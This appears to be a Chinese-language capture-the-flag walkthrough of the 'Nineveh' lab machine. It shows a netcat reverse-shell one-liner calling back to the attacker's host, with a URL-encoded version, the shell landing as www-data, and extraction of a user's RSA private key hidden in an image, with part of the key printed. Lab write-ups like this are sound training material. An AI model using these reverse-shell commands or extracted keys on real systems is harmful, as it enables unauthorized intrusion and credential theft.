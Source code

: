 



反弹shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 443 >/tmp/f
```

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.5%20443%20%3E%2Ftmp%2Ff
```



```bash
└─# nc -lvnp 443                                                
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.43] 55518
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



提权：

```bash
www-data@nineveh:/var/www/ssl$ ls
ls
db  index.html	ninevehForAll.png  secure_notes
```

```bash
└─# wget https://10.10.10.43/secure_notes/nineveh.png --no-check-certificate      
└─# strings nineveh.png
```

得到 了 amrois 用户的私钥

```bash
secret/
0000755
0000041
0000041
00000000000
13126060277
012377
ustar  
www-data
www-data
secret/nineveh.priv
0000600
0000041
0000041
00000003213
13126045656
014730
ustar  
www-data
www-data
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
```